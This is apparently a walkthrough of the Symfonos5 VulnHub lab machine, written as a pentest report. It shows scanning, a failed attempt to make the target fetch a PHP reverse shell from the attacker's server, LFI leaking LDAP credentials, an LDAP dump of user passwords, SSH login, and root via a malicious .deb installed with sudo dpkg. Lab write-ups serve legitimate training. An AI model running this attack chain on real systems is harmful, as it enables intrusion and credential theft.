


**Vulnerable System**: Symfonos5
================================

**Operating System**: Debian 10

**Kernel**: 4.19.0

**Vulnerability Exploited**: Local File Inclusion (LFI)

**Exploit Used**: N/A

**Proof of Concept Code**: /home.php?url=admin.php

**Vulnerability Explained**: The web application was vulnerable to local file
inclusion, through which LDAP credentials were obtained. LDAP credentials in
turn enabled the attacker to get user credentials and used SSH to get access
into the system.

**Vulnerability fix**: If possible, ensure the paths are hardcoded and only
items allowed from the whitelist can be accessed. In case latter is not
possible, ensure to escape potentially malicious characters such as “..”, “/” or
“%00”

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Excessive Root Privileges

**Exploit Used**: N/A

**Proof of Concept Code**: sudo /usr/bin/dpkg -i exp_1.0_amd64.deb

**Privilege Escalation Vulnerability Explained:** dpkg binary was allowed to be
ran with sudo privileges. A .deb package was constructed with the following
content:

\#!/bin/bash

/bin/bash

When the dpkg was executed to install the malicious package, the privileges got
escalated to root level.

**Vulnerability fix**: Restricted what regular users can do with sudo command,
according to the principal of the least privilege.

**Severity**: **High**

Methodology
-----------

-   Host Discover (netdiscover)

-   Port Scanning (nmap)

-   Web App Vulnerability Scan (nikto)

-   Web Page Enumeration (browser, BurpSuite, dirb)

-   Low Privilege Escalation (LFI, browser, BurpSuite, nmap, ssh)

-   Privilege Escalation (sudo -l, fpm, dpkg)

Reconnaissance
--------------

### Host Discovery (Netdiscover)

lifesfun:\~\# netdiscover -r 192.168.211.0/24

Currently scanning: Finished! \| Screen View: Unique Hosts

19 Captured ARP Req/Rep packets, from 3 hosts. Total size: 1140

\____________________________________________________________________________\_

IP At MAC Address Count Len MAC Vendor / Hostname

\-----------------------------------------------------------------------------

192.168.211.1 00:50:56:c0:00:01 7 420 V Mware, Inc.

192.168.211.150 00:0c:29:f8:30:27 9 540 VMware, Inc.

192.168.211.254 00:50:56:f8:64:da 3 180 VMware, Inc.

### Port Scanning (Nmap)

#### All Ports Scan.

lifesfun:\~\# nmap -p- 192.168.211.150

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-20 21:23 EST

Nmap scan report for 192.168.211.150

Host is up (0.00069s latency).

Not shown: 65531 closed ports

PORT STATE SERVICE

22/tcp open ssh

80/tcp open http

389/tcp open ldap

636/tcp open ldapssl

#### Aggressive, Version and Default Script Scan.

lifesfun:\~\# nmap -A -sV -sC -p 22,80,389,636 192.168.211.150

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-20 21:23 EST

Nmap scan report for 192.168.211.150

Host is up (0.00085s latency).

PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)

\| ssh-hostkey:

\| 2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)

\| 256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)

\|\_ 256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)

80/tcp open http Apache httpd 2.4.29 ((Ubuntu))

\|_http-server-header: Apache/2.4.29 (Ubuntu)

\|_http-title: Site doesn't have a title (text/html).

389/tcp open ldap OpenLDAP 2.2.X - 2.3.X

636/tcp open ldapssl?

MAC Address: 00:0C:29:F8:30:27 (VMware)

Warning: OSScan results may be unreliable because we could not find at least 1
open and 1 closed port

Device type: general purpose

Running: Linux 3.X\|4.X

OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4

OS details: Linux 3.2 - 4.9

Network Distance: 1 hop

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Web Port Enumeration (nikto, gobuster, dirb, browser, burpsuite)

#### Web App Vulnerability Scan (nikto)

lifesfun:\~\# nikto -h 192.168.211.150

\- Nikto v2.1.6

\---------------------------------------------------------------------------

\+ Target IP: 192.168.211.150

\+ Target Hostname: 192.168.211.150

\+ Target Port: 80

\+ Start Time: 2020-01-20 21:25:09 (GMT-5)

\---------------------------------------------------------------------------

\+ Server: Apache/2.4.29 (Ubuntu)

\+ The anti-clickjacking X-Frame-Options header is not present.

\+ The X-XSS-Protection header is not defined. This header can hint to the user
agent to protect against some forms of XSS

\+ The X-Content-Type-Options header is not set. This could allow the user agent
to render the content of the site in a different fashion to the MIME type

\+ No CGI Directories found (use '-C all' to force check all possible dirs)

\+ Server may leak inodes via ETags, header found with file /, inode: cf, size:
59b7f675f3d40, mtime: gzip

\+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37).
Apache 2.2.34 is the EOL for the 2.x branch.

\+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS

\+ Cookie PHPSESSID created without the httponly flag

\+ OSVDB-29786: /admin.php?en_log_id=0&action=config: EasyNews from
http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should
be protected.

\+ OSVDB-29786: /admin.php?en_log_id=0&action=users: EasyNews from
http://www.webrc.ca version 4.3 allows remote admin access. This PHP file should
be protected.

\+ OSVDB-3092: /admin.php: This might be interesting...

\+ OSVDB-3268: /static/: Directory indexing found.

\+ OSVDB-3233: /icons/README: Apache default file found.

\+ 7915 requests: 0 error(s) and 12 item(s) reported on remote host

\+ End Time: 2020-01-20 21:26:23 (GMT-5) (74 seconds)

\---------------------------------------------------------------------------

\+ 1 host(s) tested

#### Gobuster (web directory enumeration)

lifesfun:\~\# gobuster dir -u http://192.168.211.150 -w
/usr/share/wordlists/dirb/common.txt

===============================================================

Gobuster v3.0.1

by OJ Reeves (\@TheColonial) & Christian Mehlmauer (\@_FireFart_)

===============================================================

[+] Url: http://192.168.211.150

[+] Threads: 10

[+] Wordlist: /usr/share/wordlists/dirb/common.txt

[+] Status codes: 200,204,301,302,307,401,403

[+] User Agent: gobuster/3.0.1

[+] Timeout: 10s

===============================================================

2020/01/20 21:28:27 Starting gobuster

===============================================================

/.hta (Status: 403)

/.htpasswd (Status: 403)

/admin.php (Status: 200)

/.htaccess (Status: 403)

/index.html (Status: 200)

/server-status (Status: 403)

/static (Status: 301)

===============================================================

2020/01/20 21:28:30 Finished

===============================================================

#### Dirb (web directory enumeration for files with .php extension)

lifesfun:\~\# dirb http://192.168.211.150/ -X .php

\-----------------

DIRB v2.22

By The Dark Raver

\-----------------

START_TIME: Sun Jan 26 20:21:45 2020

URL_BASE: http://192.168.211.150/

WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

EXTENSIONS_LIST: (.php) \| (.php) [NUM = 1]

\-----------------

GENERATED WORDS: 4612

\---- Scanning URL: http://192.168.211.150/ ----

\+ http://192.168.211.150/admin.php (CODE:200\|SIZE:1650)

\+ http://192.168.211.150/home.php (CODE:302\|SIZE:962)

\+ http://192.168.211.150/logout.php (CODE:302\|SIZE:0)

\-----------------

END_TIME: Sun Jan 26 20:21:53 2020

DOWNLOADED: 4612 - FOUND: 3

After poking around the pages nothing was found in the front end. BurpSuite was
then turned on to inspect what was going on behind the scenes.

After making a request to home.php part of the website, in burpsuite the
following request comes up in the background.

The above request looks like it can be a Local or a Remote File Inclusion.

Low Privilege Exploitation
--------------------------

Let’s try to go the easier way first and get a reverse shell with RFI.

To test this out, a webserver needs to be running on the attacker machine.

One can simply use python SimpleHTTPServer:

lifesfun:/var/www/html\# python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...

192.168.211.150 - - [26/Jan/2020 20:40:27] "GET /php-reverse-shell.php HTTP/1.0"
200 -

192.168.211.150 - - [26/Jan/2020 20:40:48] "GET /php-reverse-shell.php HTTP/1.0"
200 -

However, the reverse shell didn't work.

#### Local File Inclusion

If RFI did not work, we can further test for LFI.

Let's explore admin.php's source code.

The source code presents us with ldap username and password.

#### Nmap ldap-search Script

lifesfun:/var/www/html\# nmap 192.168.211.150 -p 389 --script ldap-search
--script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",
ldap.password="qMDdyZh3cT6eeAWD"'

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 21:01 EST

Nmap scan report for 192.168.211.150

Host is up (0.00038s latency).

PORT STATE SERVICE

389/tcp open ldap

\| ldap-search:

\| Context: dc=symfonos,dc=local

\| dn: dc=symfonos,dc=local

\| objectClass: top

\| objectClass: dcObject

\| objectClass: organization

\| o: symfonos

\| dc: symfonos

\| dn: cn=admin,dc=symfonos,dc=local

\| objectClass: simpleSecurityObject

\| objectClass: organizationalRole

\| cn: admin

\| description: LDAP administrator

\| userPassword: {SSHA}UWYxvuhA0bWsjfr2bhtxQbapr9eSgKVm

\| dn: uid=zeus,dc=symfonos,dc=local

\| uid: zeus

\| cn: zeus

\| sn: 3

\| objectClass: top

\| objectClass: posixAccount

\| objectClass: inetOrgPerson

\| loginShell: /bin/bash

\| homeDirectory: /home/zeus

\| uidNumber: 14583102

\| gidNumber: 14564100

\| userPassword: cetkKf4wCuHC9FET

\| mail: zeus\@symfonos.local

\|\_ gecos: Zeus User

MAC Address: 00:0C:29:F8:30:27 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds

nmap ldap-search scrip helps us discover another username and password.

#### SSH

let's try to use this to log in with SSH.

lifesfun:/var/www/html\# ssh zeus\@192.168.211.150

zeus\@192.168.211.150's password:

Linux symfonos5 4.19.0-6-amd64 \#1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11)
x86_64

The programs included with the Debian GNU/Linux system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/\*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.

Privilege Escalation
--------------------

#### Enumeration

zeus\@symfonos5:\~\$ sudo -l

Matching Defaults entries for zeus on symfonos5:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User zeus may run the following commands on symfonos5:

(root) NOPASSWD: /usr/bin/dpkg

Looks like we can run dpkg as root.

#### Escalation

Privilege escalation method using /usr/bin/dpkg was found here
<https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/>

At first, an attempt was made to compile a c package into a def file as shown
below.

lifesfun:\~/vulnhub/symfonos5\# cat shell.c

\#include \<stdio.h\>

\#include \<sys/types.h\>

\#include \<unistd.h\>

int main(void)

{

setuid(0); setgid(0); system("/bin/bash");

}

lifesfun:\~/vulnhub/symfonos5\# fpm -s dir -t deb --name exp --before-install
shell.c .

Debian packaging tools generally labels all files in /etc as config files, as
mandated by policy, so fpm defaults to this behavior for deb packages. You can
disable this default behavior with --deb-no-default-config-files flag
{:level=\>:warn}

Created package {:path=\>"exp_1.0_amd64.deb"}

However, the above gave an error when executing it with dpkg.

zeus\@symfonos5:\~\$ sudo /usr/bin/dpkg -i exp_1.0_amd64.deb

Selecting previously unselected package exp.

(Reading database ... 53057 files and directories currently installed.)

Preparing to unpack exp_1.0_amd64.deb ...

/var/lib/dpkg/tmp.ci/preinst: 4: /var/lib/dpkg/tmp.ci/preinst: Syntax error: "("
unexpected

dpkg: error processing archive exp_1.0_amd64.deb (--install):

new exp package pre-installation script subprocess returned error exit status 2

Errors were encountered while processing:

exp_1.0_amd64.deb

Following, used a simple bash command instead and it worked.

lifesfun:\~/vulnhub/symfonos5\# cat suid.sh

\#!/bin/bash

/bin/bash

When the package was downloaded using wget and ran, the root shell was obtained.

zeus\@symfonos5:\~\$ wget 192.168.211.146/exp_1.0_amd64.deb

\--2020-01-20 22:01:39-- http://192.168.211.146/exp_1.0_amd64.deb

Connecting to 192.168.211.146:80... connected.

HTTP request sent, awaiting response... 200 OK

Length: 1076 (1.1K) [application/x-debian-package]

Saving to: ‘exp_1.0_amd64.deb’

exp_1.0_amd64.deb 100%[=====================================\>] 1.05K --.-KB/s
in 0s

2020-01-20 22:01:39 (157 MB/s) - ‘exp_1.0_amd64.deb’ saved [1076/1076]

zeus\@symfonos5:\~\$ sudo /usr/bin/dpkg -i exp_1.0_amd64.deb

(Reading database ... 53057 files and directories currently installed.)

Preparing to unpack exp_1.0_amd64.deb ...

root\@symfonos5:/\#

Root Flag

root\@symfonos5:\~\# cat proof.txt

Congrats on rooting symfonos:5!

ZEUS

\* . dZZZZZ, . \*

dZZZZ ZZ,

\* . ,AZZZZZZZZZZZ \`ZZ,\_ \*

,ZZZZZZV' ZZZZ \`Z,\`\\

,ZZZ ZZ . ZZZZ \`V

\* ZZZZV' ZZ ZZZZ \\\_ .

. V l . ZZ ZZZZZZ .

l \\ ZZ, ZZZ ZZZZZZ,

. / ZZ l ZZZ ZZZ \`Z,

ZZ l ZZZ Z Z, \`Z, \*

. ZZ ZZZ Z Z, \`l

Z ZZ V \`Z \\

V ZZC l V

Z l V ZR l .

\\ \\ l ZA

\\ C C

\\ K / / K

A \\ \\ \| / / /

\\ \\\\\|/ / /

\__________________________________\\\|/________________________\_

Contact me via Twitter \@zayotic to give feedback!
